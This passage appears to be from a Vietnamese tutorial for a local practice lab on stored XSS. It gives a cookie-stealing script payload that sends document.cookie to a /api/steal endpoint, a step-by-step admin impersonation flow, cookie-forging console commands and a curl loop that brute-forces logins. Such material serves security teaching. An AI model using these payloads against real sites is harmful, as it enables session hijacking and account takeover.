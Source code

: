 **Hoặc với external server:**

```html
<script>
    document.location =
        "http://localhost:3000/api/steal?cookie=" + document.cookie;
</script>
```

**Quy trình tấn công:**

1. Attacker (user1) post comment với XSS payload
2. Admin vào xem comment
3. Script thực thi trên trình duyệt của admin
4. Cookie của admin được gửi đến `/api/steal`
5. Attacker xem log để lấy cookie admin
6. Attacker dùng cookie đó để giả mạo admin

### Bước 8: Xem Stolen Cookies

Sau khi admin vào xem comment, check console của server:

```bash
🚨 STOLEN COOKIE RECEIVED:
Timestamp: 2025-10-16T...
Cookie: auth=admin:admin123
IP: ::1
User-Agent: Mozilla/5.0...
```

Hoặc xem trong bảng comments (sẽ có entry `[HACKER-LOG]`)

## 🧪 Các payload khác

### Đăng nhập với bất kỳ tài khoản nào

```javascript
// Trong Console
document.cookie = "auth=user1:password1; path=/";
document.cookie = "auth=user2:password2; path=/";
document.cookie = "auth=admin:admin123; path=/";
```

### Brute force tìm tài khoản admin

```bash
# Thử các username phổ biến
for user in admin root administrator; do
  for pass in admin admin123 password 123456; do
    curl -s -X POST http://localhost:3000/api/login \
      -H "Content-Type: application/json" \
      -d "{\"username\":\"$user\",\"password\":\"$pass\"}" | grep success
  done
done
```
